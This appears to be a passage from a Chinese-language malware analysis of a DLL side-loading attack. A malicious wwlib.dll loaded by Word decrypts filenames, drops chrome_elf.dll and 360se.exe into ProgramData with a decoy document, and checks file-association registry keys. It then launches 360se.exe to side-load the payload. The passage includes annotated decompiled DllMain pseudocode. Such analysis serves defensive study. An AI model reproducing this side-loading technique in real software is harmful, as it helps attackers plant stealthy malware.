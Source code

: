 

在word组件加载恶意wwlib.dll,在 dll 初始化时，调用恶意利用模块：

1. 调用cryptAPI  解密秘钥进行 文件名解密
2. 释放chrome_elf.dll、360se.exe文件到 C:\ProgramData\360seMaintenance；释放 2019年第一季度工作方向附表.docx  到本地目录下
3. 根据注册表是否存在 Software\\Classes\\   ”创建“.doc”和“.docx  .pdf项，存在doc项 
4. 通过 createporcessW 启动 360se.exe  及同样的命令行传参 打开 “2019年第一季度工作方向附表.docx”  
5. 通过360se.exe（360浏览器组件） 调用  chrome_elf.dll 恶意payload 利用。



```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  void *v3; // ecx@2
  char v5; // [sp-30h] [bp-54h]@6
  int v6; // [sp-2Ch] [bp-50h]@6
  int v7; // [sp-28h] [bp-4Ch]@6
  int v8; // [sp-24h] [bp-48h]@6
  int v9; // [sp-20h] [bp-44h]@6
  int v10; // [sp-1Ch] [bp-40h]@6
  const void *v11; // [sp-18h] [bp-3Ch]@6
  int v12; // [sp-14h] [bp-38h]@6
  int v13; // [sp-10h] [bp-34h]@6
  int v14; // [sp-Ch] [bp-30h]@6
  DWORD v15; // [sp-8h] [bp-2Ch]@6
  int v16; // [sp-4h] [bp-28h]@6
  HKEY phkResult; // [sp+8h] [bp-1Ch]@3
  const void **v18; // [sp+Ch] [bp-18h]@6
  int v19; // [sp+20h] [bp-4h]@6

  if ( fdwReason == 1 && sub_10009170() )  //sub_10009170 通过cryptAPI解密，释放chrome_elf.dll、360se.exe文件到 C:\ProgramData\360seMaintenance；释放 2019年第一季度工作方向附表.docx  到本地目录下
  {
    sub_100092A0(v3); //进行 doc 的注册表项判断 调用 360se.exe
    if ( !RegOpenKeyExW(HKEY_CURRENT_USER, L"SOFTWARE\\Classes\\WORD.19", 0, 0x20019u, &phkResult) )
    {
      RegCloseKey(phkResult);
      ExitProcess(1u);
    }
    sub_100072F0(); //.doc 判断SOFTWARE\\Classes\\ 
    sub_10003F00(); //.docx 判断SOFTWARE\\Classes\\ 
    sub_10005D90(); //.pdf 判断SOFTWARE\\Classes\\ 
    v18 = &v11;
    v16 = 15;
    v15 = 0;
    LOBYTE(v11) = 0;
    sub_1000A400(&v11, (int)&dword_10022100, 0, 0xFFFFFFFF);
    v19 = 0;
    v10 = 15;
    v9 = 0;
    v5 = 0;
    sub_1000A400(&v5, (int)&dword_100220A0, 0, 0xFFFFFFFF);
    v19 = -1;
    if ( !sub_100037C0(*(LPCSTR *)&v5, v6, v7, v8, v9, v10, v11, v12, v13, v14, v15, v16) )
    {
      sub_10008EA0();
      sub_10005AB0();
      sub_10007020();
    }
    ExitProcess(1u);
  }
  return 1;
}
```